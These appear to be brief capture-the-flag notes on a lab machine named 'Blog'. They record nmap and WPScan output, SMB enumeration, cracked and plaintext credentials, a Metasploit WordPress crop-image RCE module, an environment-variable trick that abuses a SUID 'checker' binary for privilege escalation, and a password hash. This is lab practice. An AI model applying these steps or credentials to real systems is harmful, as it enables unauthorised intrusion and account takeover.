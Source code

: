 #ctf
## NMAP
     80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
     |_http-generator: WordPress 5.0
     | http-robots.txt: 1 disallowed entry 
     |_/wp-admin/
     445, 139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
     Service Info: Host: BLOG
     Host script results:
     | smb-security-mode: 
     |   account_used: guest
     |   authentication_level: user
     |   challenge_response: supported
     |_  message_signing: disabled (dangerous, but default)
     | smb2-security-mode: 
     |   2.02: 

## WPSCAN
WordPress version 5.0 identified (Insecure, released on 2018-12-06).

[i] User(s) Identified:
[+] Billy Joel -> bjoel
 |  - http://10.10.17.84/wp-json/wp/v2/users/?per_page=100&page=1
[+] Karen Wheeler -> kwheel / cutiepie1
 |  - http://10.10.17.84/wp-json/wp/v2/users/?per_page=100&page=1

## SMB
[+] Dir
    BillySMB -> R/W

[+] Found domain(s):
    BLOG
    WORKGROUP
    
[+] Users
    nobody
    bjoel
    smb

## MSFCONSOLE
use multi/http/wp_crop_rce

## Linux
wordpressuser / LittleYellowLamp90!@ -> mysql

export admin=vini -> /usr/sbin/checker

## MYSQL
bjoel -> $P$BjoFHe8zIyjnQe/CBvaltzzC6ckPcO/
